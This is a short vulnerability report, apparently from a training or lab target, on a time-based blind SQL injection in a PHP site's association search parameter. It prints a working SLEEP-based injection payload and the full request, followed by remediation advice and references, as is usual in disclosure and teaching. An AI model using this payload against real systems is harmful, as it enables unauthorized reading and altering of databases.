

# SQLi

 

# Description

An SQL injection is possible via the association search functionality, on the search page [`https://9c20782de35f.3xploit.me/index.php?page=association%2Flist.php&search=`](https://9c20782de35f.3xploit.me/index.php?page=association%2Flist.php&search=a)

# Exploitation

You can change the search parameter using a tool like Burp and use this payload `'+AND+(SELECT+8582+FROM+(SELECT(SLEEP(5)))JdXE)+AND+'OmOn'%3d'OmOn+AND+UNION+SELECT`, send the request and you should have to wait 5 seconds before having a response of the server, it means the sleep command in our SQL command have been executed. 

# PoC



Request in burp:

```sql
GET /index.php?page=association%2Flist.php&search=480822'+AND+(SELECT+8582+FROM+(SELECT(SLEEP(5)))JdXE)+AND+'OmOn'%3d'OmOn+AND+UNION+SELECT HTTP/2
Host: 9c20782de35f.3xploit.me
Cookie: PHPSESSID=My_cookie_session
```

# Risk

Through this SQL injection, it is possible to retrieve and modify all the data in the database. The integrity, confidentiality, and availability of the data for users and the business are compromised.

# Remediation

- **Parameterized Queries**:
    
    The best solution to prevent SQL injection is to use **parameterized queries** (also known as **prepared statements**). These ensure that user inputs are treated as data, not executable code, by separating the query structure from the input values. This effectively prevents malicious SQL injection attempts.
    
- **Sanitize User Inputs**:
    
    It's essential to **sanitize user inputs** before processing any data. This involves escaping special characters that could alter the intended SQL query, ensuring they are treated as literal values.
    
- **Use ORM Frameworks**:
    
    An **Object-Relational Mapping (ORM)** framework is widely used to interact with databases in a more secure and abstract way. ORMs automatically generate parameterized queries, making it more difficult to accidentally introduce vulnerabilities like SQL injection.
    

*OWASP Recommendations:*  [https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

# References

[https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/](https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/)

[https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

# Author

4Fromages